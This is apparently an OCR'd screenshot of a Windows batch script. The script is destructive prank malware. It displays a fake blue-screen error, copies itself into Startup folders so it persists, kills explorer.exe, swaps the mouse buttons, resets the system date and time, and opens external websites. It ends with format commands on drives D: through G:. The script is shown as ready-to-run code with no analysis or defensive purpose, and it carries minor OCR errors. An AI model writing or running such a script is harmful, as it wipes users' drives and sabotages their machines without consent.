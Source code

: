 echo ^<p^>If problems continue, disable or remove any newly installed hardware or software. Disable BIOS memory options such as caching or shadowing. If you need to use Safe Mode to remove or disable components, restart your computer, press F8 to select Advanced Startup Options, and then select Safe Mode.^ >> bsod.hta
echo. >> bsod.hta
echo ^<p^>Technical information:^</p^> >> bsod.hta
echo. >> bsod.hta
echo ^<p^>*** STOP: 0x000000D1 (0x0000000C,0x00000002,0x00000
000,0xF86B5A89)^ >> bsod.htaecho. >> bsod.hta
echo. >> bsod.hta
echo ^<p^>*** gv3.sys – Address F86B5A89 base at F86B5000, DateStamp 3dd9919eb^ >> bsod.hta
echo. >> bsod.hta
echo ^<p^>Beginning dump of physical memory^</p^> >> bsod.hta
echo ^<p^>Physical memory dump complete.^</p^> >> bsod.hta
echo ^<p^>Contact your system administrator or technical support group for further assistance.^</p^> >> bsod.hta
echo. >> bsod.hta
echo. >> bsod.hta
echo ^</font^> >> bsod.hta
echo ^</body^>^</html^> >> bsod.hta
start “” /wait “bsod.hta”
del /s /f /q “bsod.hta” > nul
color a

cls
@echo off

msg * (Muhahaha)

set date=1
time 0:00

copy %0 "%homedrive%%homepath%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
copy %0 "%homedrive%%homepath%\Startm~1\Programme\Autostart\"
copy 0% "%systemdrive%\Documents and Settings\All Users\Start Menu\Programs\Startup"

taskkill /IM explorer.exe /f

Rundll32 user32, SwapMouseButton

start www.evil-shit.de
start www.akk.li/pics/anne/jpg

cd %userprofile%\desktop

md %random%
md %random%
md %random%
md %random%

format D:\ /F

format E:\ /F

format F:\ /F

format G:\ /F
